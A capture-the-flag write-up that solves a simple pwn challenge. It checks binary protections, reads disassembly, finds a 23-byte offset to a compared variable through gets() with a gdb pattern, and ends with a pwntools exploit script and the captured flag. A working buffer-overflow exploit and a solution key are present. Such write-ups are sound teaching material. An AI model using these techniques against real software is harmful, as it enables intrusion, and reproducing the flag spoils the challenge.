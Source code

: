 ```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

This challenge is a simple pwnable that requires us to supply a secret password.  If we start the program we're greeted by the following message, which then awaits input.

```
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
```

If we test this for a buffer-overflow, we find that in fact it is exploitable to a classic buffer overflow, but as everything has been written within the `main` function, we won't overwrite EIP.  Instead we'll overwrite the stack-pointer.
```
Invalid $SP address: 0x4129413d
```
This makes our task much more difficult, so it's likely this isn't the intended method.  Instead we'll open it up in a disassembler:

```
|           0x080485ff      e8ecfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048604      83c410         add esp, 0x10
|           0x08048607      c745f4000000.  mov dword [local_ch], 0
|           0x0804860e      83ec0c         sub esp, 0xc
|           0x08048611      8d45dd         lea eax, dword [local_23h]
|           0x08048614      50             push eax
|           0x08048615      e8b6fdffff     call sym.imp.gets           ; char*gets(char *s)
|           0x0804861a      83c410         add esp, 0x10
|           0x0804861d      817df411ba07.  cmp dword [local_ch], 0xf007ba11 ; [0xf007ba11:4]=-1
|       ,=< 0x08048624      7507           jne 0x804862d
|       |   0x08048626      e820ffffff     call sym.print_flag
```

The offending function is here.   It's looking for 0xf007ba11 in our input.  This isn't a direct comparison with our input however.  If we input this directly into our input, it will still fail.  I imagine it's possible to work this out from the disassembly, but let's just insert a breakpoint and work it out using a pattern:
```
gdb-peda$ break *0x0804861d
Breakpoint 1 at 0x804861d
gdb-peda$ pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /root/Desktop/tamuctf/pwn1 
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
```
Our program will pause at the comparison.
```
=> 0x804861d <main+107>:	cmp    DWORD PTR [ebp-0xc],0xf007ba11
```
So we examine the memory and calculate the offset, remembering that it's a little-endian system:
```
gdb-peda$ x/4x $ebp-0xc
0xffffd37c:	0x41	0x28	0x41	0x41
gdb-peda$ pattern offset 0x41412841
1094789185 found at offset: 23
```
So we have to insert the value at position 23.  See my solution below:
```
from pwn import * 

r = remote('pwn.ctf.tamu.edu', 4321) 
message = 'A'*23+p32(0xf007ba11)+'\n'
r.sendafter('What is my secret?', message) 
print r.recvline_contains('gigem') 
```
Run it, and we get our flag:
```
root@kali:~/Desktop/tamuctf# python pwn1.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
gigem{H0W_H4RD_1S_TH4T?}
[*] Closed connection to pwn.ctf.tamu.edu port 4321
```
